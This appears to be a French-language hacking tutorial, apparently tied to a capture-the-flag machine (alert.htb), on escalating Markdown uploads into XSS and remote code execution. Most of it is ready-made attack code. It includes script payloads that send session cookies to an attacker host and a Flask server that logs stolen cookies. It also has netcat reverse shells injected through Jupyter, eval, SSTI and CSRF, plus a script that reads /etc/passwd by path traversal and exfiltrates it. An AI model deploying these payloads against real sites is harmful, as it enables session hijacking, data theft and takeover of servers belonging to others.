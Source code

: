 # Exécuter le XSS avec les fichiers au format .md


Lors du téléchargement d'un fichier qui peut être traité par le serveur au format HTML, nous devons garder à l'esprit que tout ce qui est traité en HTML est probablement vulnérable à XSS (exécution de javascript).

Le fichier markdown est un fichier d'usage courant principalement dans github avec l'extension ".md" (README) dont le but est de décrire un procéssus, une installation etc... une fois ce fichier soumis au serveur, certains serveurs peuvent procéder comme du HTML avant de le stocker. Là, nous pouvons effectuer du XSS comme suit :



📜 Exploit 1️⃣ : XSS avec Markdown → RCE via JavaScript

Si le serveur convertit le Markdown en HTML mais ne filtre pas les balises <script>, on peut injecter du JS malveillant :

# Test d'Injection XSS
<script>
    fetch("http://ton-serveur.com/steal?cookie=" + document.cookie);
</script>

➡️ Impact : Récupération des cookies de session, potentiellement utilisables pour hijacker une session.



📜Exploit 2️⃣ : Injection de code dans un Notebook Jupyter

Si le Markdown est utilisé dans Jupyter Notebook, tu peux exécuter du Python directement :

```python
import os
os.system("nc -e /bin/bash TON_IP TON_PORT")

➡️ **Impact :** Remote Code Execution (RCE) si le serveur exécute le Markdown dans un environnement Jupyter.  

---

### **📜 Exploit 3️⃣ : Inclusion de fichiers (`LFI`)**
Si le serveur permet d'inclure du Markdown à partir d'un chemin local, tu peux essayer ceci :

```markdown
![LFI Test](file:///etc/passwd)

➡️ Impact : Lecture de fichiers système sensibles. Si combiné avec RCE, on peut exécuter du code.


📜 Exploit 4️⃣ : Injection Bash via Markdown dans un CMS

Si le serveur exécute des commandes Markdown dans un CMS comme Ghost, certains supports comme Mermaid.js permettent d’exécuter du JavaScript :

```mermaid
graph TD;
A[Click Me] -->|XSS| B("alert('Hacked!')");

➡️ **Impact :** Possibilité de RCE si le serveur exécute du JavaScript malveillant.  

---






📜 Exploit : XSS pour exfiltrer les cookies

Crée un fichier exploit.md avec le contenu suivant :

# Exploit XSS - Vol de Cookies

<script>
  fetch("http://TON_IP:TON_PORT/cookie?data=" + document.cookie);
</script>

🔹 Étapes d'exploitation :

1️⃣ Lancer un serveur d'écoute sur ta machine pour capturer les cookies :

nc -lvnp 9001

2️⃣ Héberger exploit.md sur la cible et le faire afficher dans un navigateur.

3️⃣ Si le XSS fonctionne, le navigateur de la victime exécutera le script et enverra les cookies sur ta machine.

4️⃣ Les cookies s’affichent dans ton Netcat.
🔹 Améliorations possibles :

    Utiliser une requête AJAX invisible pour envoyer les cookies sans alerter l’utilisateur :

<script>
  var i = new Image();
  i.src = "http://TON_IP:TON_PORT/cookie?data=" + document.cookie;
</script>

    Créer un serveur Flask pour loguer les cookies :

from flask import Flask, request

app = Flask(__name__)

@app.route('/cookie')
def log_cookie():
    cookie = request.args.get('data')
    print(f"Cookie volé : {cookie}")
    return '', 204  # Réponse vide

app.run(host='0.0.0.0', port=9001)








🔥 Méthodes pour obtenir un reverse shell via XSS
1️⃣ Si la cible utilise eval() en JavaScript (Exécution locale)

Si l'application exécute du JS avec eval(), tu peux injecter un reverse shell via WebSockets ou fetch :

<script>
eval(require('child_process').execSync('nc -e /bin/bash TON_IP TON_PORT'));
</script>

📌 Problème : Peu de serveurs utilisent eval() dans du JS exécuté côté serveur.
2️⃣ Exploiter une API REST vulnérable

Si l'application fait des requêtes vers une API qui exécute des commandes, tu peux envoyer une requête malveillante avec XSS :

<script>
fetch("http://alert.htb/api/run?cmd=nc -e /bin/bash TON_IP TON_PORT");
</script>

📌 Utile si l’application a une fonctionnalité "Exécuter une commande"
3️⃣ Si le serveur utilise Node.js avec une vulnérabilité dans res.send()

Si l'application tourne sur Node.js et expose des routes vulnérables, essaie :

<script>
fetch("http://alert.htb/admin?name='+require('child_process').exec('nc -e /bin/bash TON_IP TON_PORT')+'");
</script>

📌 Exploitable si le serveur construit dynamiquement des réponses HTML avec des entrées non filtrées.
4️⃣ Transformer l’XSS en SSTI (Server-Side Template Injection)

Si l’application utilise Jinja2, Twig, ou EJS, tu peux injecter une RCE via SSTI :

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("nc -e /bin/bash TON_IP TON_PORT") }}

📌 À tester si l’XSS peut être inséré dans une page qui utilise un moteur de template.
5️⃣ Exploiter un administrateur connecté (CSRF + XSS)

Si un admin est connecté, tu peux utiliser l'XSS pour lui faire exécuter un script qui déclenche une RCE sur le serveur via une page vulnérable :

<script>
fetch("http://alert.htb/admin/run?cmd=nc -e /bin/bash TON_IP TON_PORT", { credentials: "include" });
</script>

📌 Fonctionne si l’admin a plus de privilèges et que l'application a une page de gestion de commandes.




<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://<your-ip-address>:4444/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>

